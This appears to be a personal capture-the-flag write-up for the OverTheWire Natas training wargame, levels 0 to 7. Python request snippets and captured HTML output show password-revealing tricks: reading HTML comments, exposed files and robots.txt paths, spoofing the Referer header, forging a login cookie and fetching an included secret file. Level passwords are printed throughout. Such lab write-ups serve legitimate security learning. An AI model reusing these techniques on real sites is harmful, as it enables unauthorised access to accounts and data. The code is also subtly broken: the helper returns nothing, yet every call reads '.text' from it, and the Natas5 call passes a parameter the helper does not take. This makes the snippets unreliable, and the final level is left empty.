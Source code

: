 # Natas

https://overthewire.org/wargames/natas/

> Natas teaches the basics of serverside web-security.

> Each level of natas consists of its own website located at http://natasX.natas.labs.overthewire.org, where X is the level number. There is no SSH login. To access a level, enter the username for that level (e.g. natas0 for level 0) and its password.

> Each level has access to the password of the next level. Your job is to somehow obtain that next password and level up. All passwords are also stored in /etc/natas_webpass/. E.g. the password for natas5 is stored in the file /etc/natas_webpass/natas5 and only readable by natas4 and natas5.

> Start here:

> Username: natas0
> 
> Password: natas0
> 
> URL:      http://natas0.natas.labs.overthewire.org

## NatasX
```python
def natasX(x, pwd, endpoint="", headers={}):
    url = f'http://natas{x}.natas.labs.overthewire.org/{endpoint}'
    username = f"natas{x}"

    r = requests.get(url, auth=(username, pwd), headers=headers)

    print(r.text)
 ```

## Natas0
https://overthewire.org/wargames/natas/natas0.html

> Natas Level 0

> Username: natas0

> Password: natas0

> URL:      http://natas0.natas.labs.overthewire.org

```python
print(natasX.natasX(0,"natas0").text)
```

**Output**

```html
<div id="content">
You can find the password for the next level on this page.

<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
</div>
```

## Natas1
https://overthewire.org/wargames/natas/natas1.html

>Natas Level 0 → Level 1

>Username: natas1

>URL:      http://natas1.natas.labs.overthewire.org



```python
print(natasX.natasX(1,"gtVrDuiDfck831PqWsLEZy5gyDz1clto").text)
```

**Output**

```html
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">
<h1>natas1</h1>
<div id="content">
You can find the password for the
next level on this page, but rightclicking has been blocked!

<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
</div>
</body>
```

## Natas2
https://overthewire.org/wargames/natas/natas2.html

> Natas Level 1 → Level 2

> Username: natas2

> URL:      http://natas2.natas.labs.overthewire.org

```python
natas = natasX
# print(natas.natasX(2,"ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi").text)
print(natas.natasX(2,"ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi","files/users.txt").text)
```

**Output**

```text
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

## Natas3
https://overthewire.org/wargames/natas/natas3.html

> Natas Level 2 → Level 3

> Username: natas3

> URL:      http://natas3.natas.labs.overthewire.org

```python
natas = natasX

# print(natas.natasX(3,"sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14").text)
# print(natas.natasX(3,"sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14", "/robots.txt").text)
# print(natas.natasX(3,"sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14", "/s3cr3t/").text)
print(natas.natasX(3, "sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14", "/s3cr3t/users.txt").text)
```


**Output**

```html
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## Natas4
https://overthewire.org/wargames/natas/natas4.html

> Natas Level 3 → Level 4

> Username: natas4

> URL:      http://natas4.natas.labs.overthewire.org

```python
# print(natasX.natasX(4, "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ").text)
print(natasX.natasX(4, "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ", "", {'referer': "http://natas5.natas.labs.overthewire.org/"}).text)
```

**Output**

```html
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
```

## Natas5
https://overthewire.org/wargames/natas/natas5.html

> Natas Level 4 → Level 5

> Username: natas5

> URL:      http://natas5.natas.labs.overthewire.org

```python
print(natas.natasX(5, "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq", cookies={'loggedin': '1'}).text)
```

**Output**

```html
<div id="content">
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
</body>
```

## Natas6
https://overthewire.org/wargames/natas/natas6.html

> Natas Level 5 → Level 6

> Username: natas6

> URL:      http://natas6.natas.labs.overthewire.org

**Searchbox Source Code**
```php
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
```

```python
natas = natasX
# print(natas.natasX(6, "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1").text)
print(natas.natasX(6, "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1", endpoint="/includes/secret.inc").text)
# Enter "FOEIUWGHFEEUHOFUOIU" into the Searchbox it will result in 
```

**Output**

```html
<div id="content">

Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
<form method="post">
Input secret: <input name="secret"><br>
<input type="submit" name="submit">
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

## Natas7
https://overthewire.org/wargames/natas/natas7.html

> Natas Level 6 → Level 7

> Username: natas7

> URL:      http://natas7.natas.labs.overthewire.org

```python
```

**Output**

```html
```
